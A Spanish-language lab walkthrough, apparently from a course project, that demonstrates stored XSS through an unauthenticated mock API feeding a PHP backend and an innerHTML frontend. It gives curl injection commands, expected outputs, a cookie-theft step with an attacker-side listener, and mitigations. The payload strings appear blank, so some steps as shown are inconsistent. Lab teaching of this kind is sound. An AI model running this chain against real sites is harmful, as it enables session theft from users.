

# Demo: XSS via API Comprometida (API10:2023 / CWE-20, CWE-79)

> **ADVERTENCIA:** Demostracion exclusiva en entorno controlado y aislado.
> Consultar [despliegue_vms.md](despliegue_vms.md) para preparar las VMs antes de iniciar.

## Objetivo

Demostrar como un atacante puede comprometer una API de terceros (`api_mock.py`)
para inyectar contenido malicioso que la aplicacion principal consume sin
validacion, culminando en la ejecucion de JavaScript en el navegador de la
victima (XSS almacenado).

## Vulnerabilidades en cadena

| Paso | OWASP / CWE | Archivo | Fallo |
|---|---|---|---|
| 1. API sin autenticacion | **API10:2023** / CWE-20 | `api/api_mock.py` | `/update_repos` acepta cualquier JSON sin validar |
| 2. Confianza ciega en API | **API10:2023** / CWE-20 | `backend/ver_portafolio.php` | `file_get_contents()` + `json_decode()` sin sanitizar |
| 3. Renderizado inseguro | **CWE-79** | `frontend/script.js` | `innerHTML` sin escape de datos de la API |

## Pre-requisitos

- VMs desplegadas segun [despliegue_vms.md](despliegue_vms.md)
- Checklist de estado sano completado
- Variable: `VICTIMA=192.168.56.100` (ajustar IP real)

---

## Paso 1: Cargar portafolio limpio (estado inicial)

**Objetivo:** Mostrar el comportamiento normal de la aplicacion.

### 1a. Desde el navegador (Kali)

Abrir `http://192.168.56.100:8080/` en Firefox/Chrome de Kali.

1. Hacer clic en **"Cargar Portafolio"**.
2. Observar que se muestran 2 repositorios con descripciones legitimas:
   - "Este es un repositorio de ejemplo legado."
   - "Cliente para consumir servicios externos."

### 1b. Desde curl (verificacion)

```bash
curl -s http://$VICTIMA:8080/backend/ver_portafolio.php | python3 -m json.tool
```

**Respuesta esperada:**

```json
{
    "perfil": null,
    "repos": [
        {
            "nombre": "proyecto-ejemplo",
            "descripcion": "Este es un repositorio de ejemplo legado.",
            "url": "https://github.com/usuario/proyecto-ejemplo",
            "lenguaje": "PHP"
        },
        {
            "nombre": "api-client",
            "descripcion": "Cliente para consumir servicios externos.",
            "url": "https://github.com/usuario/api-client",
            "lenguaje": "JavaScript"
        }
    ]
}
```

**Explicacion:** La aplicacion consulta la API mock en `localhost:5000/repos`
y renderiza los datos tal cual. Todo funciona correctamente en este punto.

---

## Paso 2: Comprometer la API de terceros

**Objetivo:** Inyectar contenido malicioso en la API mock via su endpoint
desprotegido `/update_repos`.

> **IMPORTANTE (comportamiento del navegador):** un `<script>...</script>`
> insertado mediante `innerHTML` **NO se ejecuta** — el estandar HTML5 lo impide
> para nodos insertados dinamicamente. Para la demo en vivo se usa un payload con
> manejador de evento (``), que **si** dispara. El
> `<script>` clasico sirve para evidenciar la *propagacion* del payload, pero no
> su *ejecucion*. Evidencia en [fase4_pruebas.md](fase4_pruebas.md) §4.4.
>
> **Cuidado con las comillas del atributo:** en un atributo HTML sin comillas, el
> valor se corta en el primer espacio. Por eso `onerror=alert("XSS - Grupo 6")`
> (con espacios y sin comillas) **NO dispara**. Usa `onerror=alert(document.domain)`
> (sin espacios) para el one-liner de abajo, o si quieres un mensaje con espacios,
> encierra el manejador en comillas: `onerror="alert('XSS - Grupo 6')"` y envialo
> con un archivo (`-d @payload.json`) para no pelear con el escapado del shell.

```bash
curl -s -X POST http://$VICTIMA:5000/update_repos \
  -H "Content-Type: application/json" \
  -d '[{
    "nombre": "repo-malicioso",
    "descripcion": "",
    "url": "https://evil.com/repo",
    "lenguaje": "JavaScript"
  }]' | python3 -m json.tool
```

**Respuesta esperada:**

```json
{
    "status": "repositorios actualizados",
    "repos": [
        {
            "nombre": "repo-malicioso",
            "descripcion": "",
            "url": "https://evil.com/repo",
            "lenguaje": "JavaScript"
        }
    ]
}
```

**Explicacion:** El endpoint `/update_repos` no tiene autenticacion ni
validacion de estructura. Cualquier cliente (incluso el atacante desde Kali)
puede reemplazar la lista de repositorios con contenido arbitrario, incluyendo
JavaScript embebido en el campo `descripcion`.

**Punto clave:** La API mock simula un servicio de terceros que fue comprometido.
En un escenario real, esto podria ocurrir por:
- Credenciales de API filtradas
- Vulnerabilidad en el proveedor de la API
- Ataque Man-in-the-Middle sin TLS
- Cadena de suministro comprometida

---

## Paso 3: Verificar que el backend propaga el payload

**Objetivo:** Confirmar que `ver_portafolio.php` transmite el contenido
malicioso sin sanitizar.

```bash
curl -s http://$VICTIMA:8080/backend/ver_portafolio.php | python3 -m json.tool
```

**Respuesta esperada:**

```json
{
    "perfil": null,
    "repos": [
        {
            "nombre": "repo-malicioso",
            "descripcion": "",
            "url": "https://evil.com/repo",
            "lenguaje": "JavaScript"
        }
    ]
}
```

**Explicacion:** El backend PHP:
1. Consulta la API comprometida (`file_get_contents('http://localhost:5000/repos')`)
2. Decodifica el JSON sin validar su contenido (`json_decode()`)
3. Reenvia los datos tal cual al frontend (`json_encode($payload)`)

En ningun punto se valida ni sanitiza el campo `descripcion`.

---

## Paso 4: Ejecutar el XSS en el navegador

**Objetivo:** Observar la ejecucion del JavaScript inyectado.

1. En el navegador de Kali, ir a `http://192.168.56.100:8080/`
2. Hacer clic en **"Cargar Portafolio"**
3. **Resultado:** Salta un `alert()` mostrando el dominio de la victima (p. ej.
   `192.168.56.100`). Es la prueba de que el JavaScript del atacante se ejecuto
   dentro del contexto de la pagina de la victima (no en la del atacante).

**Explicacion del flujo de ejecucion:**

```
API mock (comprometida)
  -> descripcion contiene 
    -> ver_portafolio.php reenvia sin sanitizar
      -> script.js asigna repo.descripcion a innerHTML
        -> navegador parsea el HTML e ejecuta el <script>
```

El codigo vulnerable en `frontend/script.js` (lineas 65-73):

```javascript
listaRepos.innerHTML = data.repos.map(repo => `
    <div class="repo-card">
        <h3>${repo.nombre}</h3>
        <p>${repo.descripcion}</p>   // <-- XSS aqui
        ...
    </div>
`).join('');
```

---

## Paso 5 (Opcional): Variantes avanzadas de XSS

### 5a. XSS con event handler (bypass de filtros de script)

```bash
curl -s -X POST http://$VICTIMA:5000/update_repos \
  -H "Content-Type: application/json" \
  -d '[{
    "nombre": "repo-img",
    "descripcion": "",
    "url": "https://evil.com",
    "lenguaje": "HTML"
  }]'
```

Recargar portafolio en el navegador. El alert se ejecuta via `onerror` sin
usar la etiqueta `<script>`, evitando filtros basicos. (Se usa
`alert(document.domain)` sin espacios: un atributo `onerror` sin comillas se
cortaria en el primer espacio.)

### 5b. Robo de cookies (demostracion avanzada)

En Kali, iniciar un listener para capturar cookies:

```bash
# Terminal en Kali
python3 -m http.server 8000
```

Inyectar payload de exfiltracion:

```bash
curl -s -X POST http://$VICTIMA:5000/update_repos \
  -H "Content-Type: application/json" \
  -d '[{
    "nombre": "repo-stealer",
    "descripcion": "",
    "url": "https://evil.com",
    "lenguaje": "JS"
  }]'
```

Recargar portafolio. En la terminal de Kali aparecera una peticion GET con
las cookies del navegador victima.

---

## Resumen del Ataque



## Cadena de confianza rota

La vulnerabilidad no es solo XSS. Es una **cadena de confianza rota** en tres
capas:

1. **API de terceros sin proteccion** (API10): `/update_repos` no valida quien
   modifica los datos ni la estructura del contenido.
2. **Backend confia ciegamente** (API10/CWE-20): `ver_portafolio.php` asume
   que todo lo que devuelve la API es seguro y lo reenvia sin validar.
3. **Frontend renderiza sin escape** (CWE-79): `script.js` usa `innerHTML`
   para insertar datos no confiables en el DOM.

Cada capa por si sola podria no ser explotable, pero juntas forman un vector
de ataque completo: **API comprometida -> datos maliciosos -> XSS en cliente**.

## Mitigacion

| Capa | Medida | Descripcion |
|---|---|---|
| API Mock | Autenticacion en `/update_repos` | Requerir API key o token para modificar datos |
| API Mock | Validacion de esquema | Validar estructura JSON y tipos de campos |
| Backend PHP | Sanitizar respuesta de terceros | Aplicar `htmlspecialchars()` a cada campo antes de reenviar |
| Backend PHP | Validar estructura | Verificar que el JSON tiene los campos esperados y tipos correctos |
| Backend PHP | Content Security Policy | Enviar header `Content-Security-Policy` restrictivo |
| Frontend JS | Usar `textContent` | Reemplazar `innerHTML` por `textContent` para datos de usuario |
| Frontend JS | DOMPurify | Si se necesita HTML, sanitizar con libreria DOMPurify |
| **Referencia segura** | Rama `versión-asegurada` | Ver implementacion mitigada en el repositorio |

## Resetear despues de la demo

```bash
# Reiniciar la API mock para restaurar repos originales
# (Ctrl+C en la terminal de api_mock.py, luego:)
python3 api/api_mock.py 5000

# Verificar estado limpio
curl -s http://$VICTIMA:5000/repos | python3 -m json.tool
```

## Referencia de Payloads

Ver [payloads.txt](payloads.txt) seccion 2 para la lista completa de payloads XSS.
